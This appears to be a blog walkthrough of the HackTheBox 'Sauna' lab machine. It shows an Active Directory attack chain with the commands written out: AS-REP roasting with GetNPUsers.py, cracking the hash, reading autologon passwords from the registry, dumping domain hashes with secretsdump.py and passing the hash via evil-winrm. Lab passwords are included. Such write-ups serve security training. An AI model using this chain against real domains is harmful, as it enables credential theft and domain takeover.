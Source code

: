 ```yaml
---
layout: post
title: Sauna Machine Walkthrough
description: >
    Sauna Hackthebox Machine Detailed Walkthrough
sitemap: false
categories: [Hackthebox]
permalink: /:categories/sauna.html
---
```


***"Technology is just a tool. In terms of getting the kids working together and motivating them, the teacher is the most important."***   - Bill Gates
{:.lead}
![](https://r3dw0lfsec.in/assets/img/blog/HTB/sauna/poster.jpeg)

* toc
{:toc .large-only}

## Machine Matrix
![](https://r3dw0lfsec.in/assets/img/blog/HTB/sauna/machinematrix.png)

## Machine Summary
Box has an webapplication running, from which we enumerated the usernames. We made certain modifications on the usernames and ran GetNPUsers.py from impacket library inorder to check whether any user has kerberos pre-authentication disabled. As expected one (fsmith) user as kerberos pre-authentication disabled and using winrm we get the user shell. Now for privilege escalation, we find that there is a default crendentials stored for a user (svs_loanmgr) but that that is not the administrator. We use secretsdump.py again from impacket library to dump the crendentials of all the user including the administrator.

## Nmap Scan
I started the enumeration with nmap scan
```bash
nmap -sC -sV 10.10.10.10.175
```
![](https://r3dw0lfsec.in/assets/img/blog/HTB/sauna/1.png)

The Box had 12 ports open

| Port         | Service           |
|:-------------|:------------------|
| 53           | domain            |
| 80           | http IIS Server   |
| 88           | kerberos-sec      |
| 135          | msrpc             |
| 139          | netbios-ssn       |
| 389          | ldap              |
| 445          | microsoft-ds      |
| 464          | kpasswd5          |
| 593          | ncacan_http       |
| 636          | tcpwrapped        |
| 3268         | ldap              |
| 3269         | tcpwrapped        |

## Enumeration on port 80
I enumerated on the webapplication to check if there is any misconfigurations that could lead us to initial foothold but that didnt end well. We have potential names of the employees and check with any of the user have kerberos pre-authentication disabled.
```
fergus smith
shaun coins
sophie driver
bowie taylor
hugo bear
steven kerb
```

![](https://r3dw0lfsec.in/assets/img/blog/HTB/sauna/2.png)

## Enumerating with usernames

I formed a list of usernames of the  Active Directory, i formed the list using certain naming conventions such as username for John Melon can be 
```
j.melon 
jmelon
johnm
john.melon
john.m
```
![](https://r3dw0lfsec.in/assets/img/blog/HTB/sauna/3.png)

## Kerberos Pre-Authentication
The Key Distribution Center (KDC) is available as part of the domain controller and performs two key functions which are: Authentication Service (AS) and Ticket-Granting Service (TGS)

By default the KDC requires all accounts to use pre-authentication. This is a security feature which offers protection against password-guessing attacks. The AS request identifies the client to the KDC in plain text. If pre-authentication is enabled, a time stamp will be encrypted using the user's password hash as an encryption key. If the KDC reads a valid time when using the user's password hash, which is available in the Active Directory, to decrypt the time stamp, the KDC knows that request isn't a replay of a previous request.

When you do not enforce pre-authentication, a malicious attacker can directly send a dummy request for authentication. The KDC will return an encrypted TGT and the attacker can brute force it offline.

![](https://r3dw0lfsec.in/assets/img/blog/HTB/sauna/kerberos_preauthentication.png)

## Acquring User Shell
Some time kerberos pre-authentication is disabled for the domain users. As mentioned earlier we can get the encrypted TGT with a dumy query using GetNPUsers.py from impacket library with the username list that i have formed.
```bash
GetNPUsers.py EGOTISTICAL-BANK.LOCAL/ -usersfile usernames.txt -no-pass -format john -outputfile hash.txt
```
![](https://r3dw0lfsec.in/assets/img/blog/HTB/sauna/4.png)

I was able to retrive the kerberos hash for the username fsmith

![](https://r3dw0lfsec.in/assets/img/blog/HTB/sauna/5.png)

I cracked the obtained hash of fsmith using john, the password for fsmith was ***Thestrokes23***

![](https://r3dw0lfsec.in/assets/img/blog/HTB/sauna/6.png)

Now i used evil-winrm tool with the username as *fsmith* and password as *Thestrokes23* to get the shell.

## Privilege Escalation 
As usual i ran winpeas for enumerating on the privilege escalation, found there was an autologon credentials for the user svc_loanmanager

![](https://r3dw0lfsec.in/assets/img/blog/HTB/sauna/7.png)

we can also manually verify it using the command:
```powershell
REG QUERY "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\WinLogon" /v DefaultPassword
```
or 
```powershell
REG QUERY "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\WinLogon" /v DefaultPassword /reg:64
```
```
Auto Logon Credentials
username: svc_loanmanager
password: Moneymakestheworldgoround!
```
Getting the administrator access won't be this simple, i was not able to get the shell for  the user svc_loanmanager. The user's folder had only fmsith, svc_loanmgr, administrator (enumerated using the fsmith access).
Now i tried with the username svc_loanmgr, got the shell
I manually enumerated it and found that it is a part of domain controlle

So i ran secretsdump.py to dump the credentials of all the users.
```bash
secretsdump.py EGOTISTICAL-BANK.local/svc_loanmgr@EGOTISTICAL-BANK.local
```
![](https://r3dw0lfsec.in/assets/img/blog/HTB/sauna/8.png)

Now i used the NTLM hash of the administrator directly in evil-winrm to get the shell
```bash
evil-winrm -i 10.10.10.175 -u administrator -H {HASH}
```
![](https://r3dw0lfsec.in/assets/img/blog/HTB/sauna/9.png)

![](https://r3dw0lfsec.in/assets/img/blog/HTB/sauna/sauna.png)

Happy Hacking!
